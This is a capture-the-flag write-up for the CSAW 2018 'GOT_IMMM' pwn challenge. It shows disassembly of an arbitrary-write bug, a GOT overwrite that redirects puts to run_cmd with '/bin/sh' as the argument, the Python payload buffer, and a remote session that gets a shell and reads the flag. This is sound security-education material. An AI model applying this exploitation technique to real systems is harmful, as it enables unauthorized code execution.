

# Description #
GOT\_IMMM
150

Get it GOT it Good!

nc pwn.chal.csaw.io 10105

# Running the binary #
We were presented with a binary that received some user input and write it back to the console ...

```
./got
Welcome! The time is Thu Sep 27 04:28:22 UTC 2018
Anyways, give me a string to save: What can I write?
Ok, I'm writing What can I write?
 to my buffer...
What can I write?
```

# Analyzing the binary #

We just had an input of 32 bytes, but after the print there was some interesting stuff going on ...

```asm
0x004007e5      e8f6fdffff     call sym.imp.printf                  ; int printf(const char *format)
0x004007ea      488b45e8       mov rax, qword [local_18h]
0x004007ee      488b55d0       mov rdx, qword [s]
0x004007f2      488910         mov qword [rax], rdx
0x004007f5      488b55d8       mov rdx, qword [local_28h]
0x004007f9      48895008       mov qword [rax + 8], rdx
0x004007fd      488b55e0       mov rdx, qword [local_20h]
0x00400801      48895010       mov qword [rax + 0x10], rdx
0x00400805      488d45d0       lea rax, [s]
0x00400809      4889c7         mov rdi, rax                         ; const char *s
0x0040080c      e89ffdffff     call sym.imp.puts                    ; int puts(const char *s)
```
At 0x004007f2 we were able to write to an arbitrary address, per example we could modify the
puts GOT entry to jump again to the run\_cmd function. The **puts** got.plt entry was
at address 0x00601018 ...

```
[0x004005b0]> pdf
┌ (fcn) sym.imp.puts 6
│   sym.imp.puts (const char *s);
│           ; CALL XREF from sym.main (0x40080c)
└           0x004005b0      ff25620a2000   jmp qword reloc.puts                 ; loc._29 ; [0x601018:8]=0x4005b6
[0x004005b0]> px @reloc.puts
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601018  b605 4000 0000 0000 c605 4000 0000 0000  ..@.......@.....
```

The original plan was to modify the value at address 0x00601018 with 0x0040074b
(address of run\_cmd), however if we kept looking at the code we were also able to write at 
two more locations rax+0x8 and rax+0x10.

```asm
0x004007f5      488b55d8       mov rdx, qword [local_28h]
0x004007f9      48895008       mov qword [rax + 8], rdx
0x004007fd      488b55e0       mov rdx, qword [local_20h]
0x00400801      48895010       mov qword [rax + 0x10], rdx
0x00400805      488d45d0       lea rax, [s]
0x00400809      4889c7         mov rdi, rax                         ; const char *s
```

We also needed to take into consideration the value that would end in the RDI register since
that would be our argument for the run\_cmd function.


```
[0x0040076b]> px @0x00601000
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601000  280e 6000 0000 0000 0000 0000 0000 0000  (.`.............
0x00601010  0000 0000 0000 0000 b605 4000 0000 0000  ..........@.....
0x00601020  c605 4000 0000 0000 d605 4000 0000 0000  ..@.......@.....
0x00601030  e605 4000 0000 0000 f605 4000 0000 0000  ..@.......@.....
0x00601040  0606 4000 0000 0000 1606 4000 0000 0000  ..@.......@.....
```

Since we were writing at locations 0x0, +0x8 and +0x10, we would write at location 0x00601010,
the first offset stored /bin/sh, the second replaced the address for **puts** to run\_cmd and 
the third would be the same address for \_\_stack\_chk\_fail function.

At execution time we saw that the got entry for puts was 0x4005b6 since it was not resolved at
first.
```
 gef➤  x/gx 0x00601018
0x601018:       0x00000000004005b6
```
After executing the instruction at 0x4007f9 we verified that we overwrote the got entry for the
**puts** function ...



Our final buffer ended up like this ...

```py
buf = "/bin/sh" + "\x00"+  p64(0x0040074b) + p64(0x004005c6) + p64(0x00601010)
```

# Getting the flag #
```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10105: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
  ____     _____   _
 / ___| __|_   _| / |_ __ ___  _ __ ___
| |  _ / _ \| |   | | '_ ` _ \| '_ ` _ \
| |_| | (_) | |   | | | | | | | | | | | |
 \____|\___/|_|___|_|_| |_| |_|_| |_| |_|
             |_____|
Welcome! The time is Sun Sep 30 01:48:44 UTC 2018
Anyways, give me a string to save: /bin/sh^@K^G@^@^@^@^@^@E@^@^@^@^@^@^P^P`^@^@^@^@^@
Ok, I'm writing /bin/sh to my buffer...
$ ls
ls
art.txt  flag.txt  got    run.sh
$ cat flag.txt
cat flag.txt
flag{wE_g3t_[EDITED]}
```
